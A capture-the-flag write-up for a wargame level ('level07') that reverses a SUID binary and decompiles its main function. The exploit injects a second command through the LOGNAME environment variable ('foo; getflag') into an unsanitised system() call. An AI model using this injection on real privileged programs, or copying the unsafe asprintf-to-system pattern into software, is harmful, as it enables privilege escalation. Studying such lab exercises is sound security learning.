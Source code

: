 # foothold

Another level without prior information... But! It doesn't matter, because
there is a binary with SUID bit in the user home. (UuU)

I more or less get what is doing by using `strings`, but, I'm bored, let's
reverse it.

```diff
 /lib/ld-linux.so.2
 zE&9qU
 __gmon_start__
 libc.so.6
 _IO_stdin_used
 setresgid
+asprintf
+getenv
 setresuid
+system
 getegid
 geteuid
 __libc_start_main
 GLIBC_2.0
 PTRh
 UWVS
 [^_]
+LOGNAME
+/bin/echo %s
```

And yeat...
```bash
$ LOGNAME=paco ./level07
paco
```

As I tought, the binary gets the `LOGNAME` env var and prints it

But, how can we exploit this?

Well, `asprintf` is similar to `sprintf` just saves the formated output to a
string, except that it allocated a string large enough to hold the output,
including the terminated null byte, and returns a pointer to it via the first
argument, and it must be freed later.

The prototype is: `int asprintf(char **strp, const char *fmt, va_list ap);`

So, if there's a call to `system`... We can assume that they build the command
string with `asprintf`, and pass it to `system`.

So we could probably do something like:
```bash
LOGNAME="foo; getflag" ./level07
```

And there it is, the flag, this one was really easy, I'm kind of unhappy because
the previous level was tricky.

Just for fun, I also reversed the program, and indeed, is doing what I thought:
```c
int main(int argc,char **argv,char **envp)
{
    char *pcVar1;
    int iVar2;
    char *buffer;
    gid_t gid;
    uid_t uid;
    char *local_1c;
    __gid_t local_18;
    __uid_t local_14;
    
    local_18 = getegid();
    local_14 = geteuid();
    setresgid(local_18,local_18,local_18);
    setresuid(local_14,local_14,local_14);
    local_1c = (char *)0x0;
    pcVar1 = getenv("LOGNAME");
    asprintf(&local_1c,"/bin/echo %s ",pcVar1);
    iVar2 = system(local_1c);
    return iVar2;
}
```
